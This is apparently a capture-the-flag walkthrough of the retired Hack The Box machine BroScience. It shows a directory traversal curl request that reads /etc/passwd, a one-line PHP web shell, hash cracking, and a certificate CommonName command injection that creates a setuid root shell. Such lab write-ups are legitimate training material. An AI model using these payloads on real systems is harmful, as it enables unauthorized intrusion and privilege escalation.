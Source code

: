 ## 🧠 HTB: BroScience Walkthrough

### 📦 Box Info
- **Name:** BroScience
- **OS:** Linux
- **Difficulty:** Medium [30 pts]
- **Release Date:** 07 Jan 2023
- **Retirement:** 08 Apr 2023
- **Creator:** bmdyy

---

### 🔍 Recon

#### 🌐 Ports Discovered (via `nmap`):
- **22/tcp** - OpenSSH 8.4p1 (Debian)
- **80/tcp** - Apache 2.4.54, redirects to HTTPS
- **443/tcp** - Apache 2.4.54 (SSL-enabled)

```bash
nmap -p- --min-rate 10000 10.10.11.195
nmap -p 22,80,443 -sCV 10.10.11.195
```

#### 🌍 Website Behavior
- HTTP redirects to HTTPS (`https://broscience.htb`)
- Exercises accessible via `exercise.php?id=1`
- Requires registration + activation
- PHPSESSID cookie issued

#### 🔍 Directory Fuzzing
```bash
feroxbuster -u https://broscience.htb -x php -k --no-recursion
```
- Interesting endpoints: `index.php`, `register.php`, `login.php`, `user.php`, `activate.php`, `includes/img.php`

---

### 🐚 Shell as www-data

#### 🕳️ Directory Traversal (not LFI 😤)
- `/includes/img.php?path=` is vulnerable
- `..%252f` double-URL encoding bypasses filters

```bash
curl -k "https://broscience.htb/includes/img.php?path=..%252f..%252f..%252fetc%252fpasswd"
```

#### 📄 Source Read
- Dumped `/index.php`, `/includes/utils.php`, `/includes/db_connect.php`
- Found DB creds & salt `NaCl`
- Found unserialize on `user-prefs` cookie
- Found insecure `generate_activation_code()` using `srand(time())`

#### 🔓 Activation Code Forge
```php
md5($db_salt . $password);
```
- Brute-forced likely activation code based on server timestamp
- Activated user

#### 💥 PHP Deserialization to RCE
- Modified `user-prefs` cookie with `AvatarInterface` payload
- Hosted reverse shell via `cmd.php`
- Reached `/cmd.php?cmd=...`
- Reverse shell as `www-data`

```php
<?php system($_REQUEST['cmd']); ?>
```

---

### 🐚 Shell as bill

#### 🔎 Database Creds
- Used creds from `db_connect.php` to connect to PostgreSQL
- Dumped users table and cracked password hashes with:
```bash
hashcat -m 20 --user hashes rockyou.txt --show
```
- Cracked user bill's password: `iluvhorsesandgym`
- Switched user via `su - bill`

---

### 👑 Shell as root

#### 🔄 Cron Discovery (pspy)
- Found `/opt/renew_cert.sh` executed every 2 mins
- Reads from `/home/bill/Certs/broscience.crt`
- Vulnerable to command injection via `CommonName` field

#### 💣 Exploit
- Crafted certificate with payload:
```bash
CN = $(cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf)
```
- SetUID root shell dropped in `/tmp/0xdf`
- Executed `/tmp/0xdf -p` to get root

---

### 🏁 Flags
- **User:** `511395d5************************`
- **Root:** `e810aba4************************`

---

### 📬 Shoutout to 0xdf
- Blog: [0xdf hacks stuff](https://0xdf.gitlab.io/)
- Mastodon: `@0xdf@infosec.exchange`
- YouTube, Gitlab, Buy Me a Coffee ☕